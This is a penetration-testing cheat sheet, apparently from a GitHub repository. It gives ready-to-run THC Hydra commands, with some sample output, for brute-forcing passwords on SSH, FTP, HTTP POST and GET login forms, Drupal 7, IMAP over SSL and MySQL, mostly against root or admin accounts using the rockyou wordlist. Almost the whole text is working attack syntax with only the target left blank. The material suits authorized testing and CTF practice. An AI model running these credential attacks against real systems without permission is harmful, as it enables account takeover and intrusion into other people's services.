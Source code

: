 # THC Hydra
[THC Hydra](https://sectools.org/tool/hydra/) is a tool commonly used to brute force user credentials. Always remember that you are at the mercy of your wordlists during these types of attacks. The longer, more accurate/finely-tuned wordlist = the fatser you get positive results.
## SSH
To brute force SSH credentials, use the following command. This will brute force the credentials for the `root` user.

```
root@kali:~# hydra -l root -P /wordlists/rockyou.txt (target ip address) ssh
[WARNING] Many SSH configurations limit the number of parallel tasks, it is \
recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344423 login tries (l:1/p:0), ~14344423 tries per task
[DATA] attacking ssh://(target ip address):22/
[STATUS] 257.00 tries/min, 257 tries in 00:00h, 0 to do in 01:00h, 14344167 active
[STATUS] 245.00 tries/min, 735 tries in 00:00h, 0 to do in 03:00h, 14343689 active
[STATUS] 231.14 tries/min, 1618 tries in 00:00h, 0 to do in 07:00h, 14342806 active
```

## FTP
To brute for an FTP service with a known username try the following command.

`hydra -l (UID) -P /path/to/500-worst-passwords.txt (TARGET IP ADDRESS) ftp`

## HTTP
To brute for an HTTP form, try the following syntax with `hydra`:
### HTTP POST Form
`hydra -l (USERNAME) -P /path/to/wordlist.txt (TARGET IP ADDRESS) http-post-form "/URI/path/to/login.php:(HTML FORM USERNAME ATTRIBUTE)=^USER^&(HTML FORM PASSWORD ATTRIBUTE)=^PASS^&Login=Login:(FAILED LOGIN MESSAGE)"`

Where `HTML FORM USERNAME ATTRIBUTE` is the HTML form username "name" attribute. E.g.: `<input type=text name="username" />` In that example, the `username` value for the attribute `name` is what would be used. Same gfoes for the password: `<input type=password name="passwd" />` In that exmaple `passwd` would be used to construct the command as it is the value of the password input's name attribute. The command would then look something like so:

  ... `:username=^USER^&passwd=^PASS^` ...
  
  `hydra` will fill in the `^USER^` and `^PASS^` values upon every single HTTP request with each username and password that you mean to test.
### HTTP GET Form
The GET parameters, that you seein the URL bar, are rarely used for HTTP authentication. This is because developers do not want to make your username and password "bookmarkable." Some cases in CTF, penetratiuon testing, etc, beg to differ. To perform a GET request for a password brute force, you must understand there are some caveats. 
1. You cannot use certain characters in your password. 
This is because of the URL/HTTP transport encoding. FOr instance, sometimes a "#" in a password from `rockyou.txt` will cause an HTTP 400 Bad Request repose from the server.

Let's take a look at an HTTP GET login password brute force attempt using THC-Hydra,
```
root@attacker-machine:~# hydra -l admin -P /pwnt/passwords/wordlists/rockyou.txt (TARGET IP ADDRESS) http-get-form "/login.php:username=^USER^&password=^PASS^&Login=Login:Please Login|Bad Request"
```
As you can see, I used a pipe "|" to say "OR" to ignore Error 400 Bad Request responses form the target server.

### Drupal 7
In Drupal 7 we need to first get the form_build_id from the `./user/` directory as so,
```
root@wnl8:~# curl -s http://drupal.site/user/ | grep form_build_id | cut -d "\"" -f 6
```
Alternatively, if this does not provide a string, like, `form-uQ6n4rbHr99R2XZirfsxaa3rPmV8xpZjXWsa3-G-8Nw` for example, then simply hit CTRL+U on the `./user/` page and search for "form_build_id"
Next, we can use Hydra on Drupal as so,
```
hydra -l admin -P /wordlists/rockyou.txt (TARGET DRUPAL IP) http-form-post "/?q=user/:name=admin&pass=^PASS^&form_id=user_login&form_build_id=form-uQ6n4rbHr99R2XZirfsxaa3rPmV8xpZjXWsa3-G-8Nw:Sorry
```
And as you see, I have inserted the Drupal form ID and I am attempting to brute force the `admin` user.

## SMTP (IMAP SSL)
To brute force SMTP via SSL Authentication, you must first enumerate which port ssl/imap is runniing on using `nmap`. In our case, we found port 993 as,

```
993/tcp  open  ssl/imap   Dovecot imapd
|_imap-capabilities: ID more IDLE have IMAP4rev1 ENABLE LOGIN-REFERRALS SASL-IR LITERAL+ listed capabilities Pre-login post-login AUTH=PLAINA0001 OK
```

We also need to enumerate a valid username. We can hlearn how to do so from the [SMTP User Enumeration Module](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Enumeration/smtp-user-enumeration.md). After gathering these two pieces of information, we can use `hydra` to try to brute force the authentication like so:

`root@kali:~# hydra (TARGET IP ADDRESS) smtp -l (USERNAME) -P /path/to/wordlist.txt -V -s (TARGET PORT)`

## MySQL
To brute force MySQL services (usually running on port 3306 of the target system), use the following syntax with THC-Hydra,
```
root@attacker-system:~# hydra -l root -P /path/to/wordlist.txt (TARGET IP ADDRESS) mysql
```

